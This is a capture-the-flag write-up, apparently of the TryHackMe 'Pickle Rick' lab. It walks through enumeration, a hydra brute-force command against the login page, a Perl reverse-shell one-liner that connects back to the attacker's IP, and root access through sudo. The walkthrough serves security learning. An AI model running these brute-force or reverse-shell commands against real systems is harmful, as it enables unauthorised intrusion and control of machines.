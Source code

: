 # Pickle Rick

![](<../../.gitbook/assets/image (508).png>)

It seems that we have only one task. I started off with an nmap scan, and looking at the web app:

![](<../../.gitbook/assets/image (425).png>)

Nothing too important on the page itself. I checked out robots.txt to see if there were any directories we were not allowed to see:

![](<../../.gitbook/assets/image (360).png>)

I then went back to the original page, and saw something in the page source code:

![](<../../.gitbook/assets/image (640).png>)

Now we know the username: R1ckRul3s. By this time my nmap scan had completed:

![](<../../.gitbook/assets/image (424) (2).png>)

We see the SSH port and HTTP port. I ran feroxbuster on the target and got the following:

![](<../../.gitbook/assets/image (670).png>)

There isn't too much going on here. I checked out the assets folder:

![](<../../.gitbook/assets/image (641).png>)

Nothing out of the ordinary here either. I did not get anything of use from feroxbuster, but dirbuster had shown me files that I had not seen before:

![](<../../.gitbook/assets/image (601) (1).png>)

![](<../../.gitbook/assets/image (433) (1).png>)

I think I might be able to bruteforce this with hydra. In order to do this, I need to get information about the error message:

![](<../../.gitbook/assets/image (370) (1).png>)

Now we know what the error looks like. We also need to see what the request body looks like. This can be done by looking at the network tab (in the inspector window). In the network tab, if you click on "Header" and then "Resend", then "Edit and Resend", you can see the request body:

![](<../../.gitbook/assets/image (601).png>)

I combined this all with the help of [https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/) to get the following command:

`hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.116.191 http-post-form "/login.php:username=R1ckRul3s&password=^PASS^&sub=Login:Invalid username or password."`

After running **hydra** with multiple different wordlists, I found [this write-up](https://thefluffy007.com/2019/03/14/tryhackme-pickle-rick-ctf/) that made me realize my mistake: I had overlooked that the password was what I had found earlier:&#x20;

![](<../../.gitbook/assets/image (639) (1).png>)

Combining the username and password leads us to this:

![](<../../.gitbook/assets/image (532).png>)

I have access to `ls` and see some interesting files:

![](<../../.gitbook/assets/image (433) (2).png>)

When trying to run `cat` and `more`, I get the following output:

![](<../../.gitbook/assets/image (488).png>)

I want to get a netcat reverse shell onto the system so I will be able to run commands more freely. In order to do this, I used the website [https://www.revshells.com/](https://www.revshells.com/) to make the shell. A lot of them did not work, but this one did:

`perl -e 'use Socket;$i="<MY IP ADDRESS>";$p=4343;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'`

I got a shell:

![](<../../.gitbook/assets/image (614).png>)

I finally got the first ingredient:

![](<../../.gitbook/assets/image (665).png>)

The file clue.txt had the following information in it:

![](<../../.gitbook/assets/image (494).png>)

I went to look in the home directory and saw two directories, which led me to the second clue:

![](<../../.gitbook/assets/image (351).png>)

I did not see anything else that stood out, so I ran `sudo -l` to see what I had access to as root:

![](<../../.gitbook/assets/image (324).png>)

Apparently, I can run **any** command as root. I was able to get root:

![](<../../.gitbook/assets/image (715).png>)

I just needed to find the last ingredient. It was in the /root folder:

![](<../../.gitbook/assets/image (672) (2).png>)

That's all that was needed for this machine.
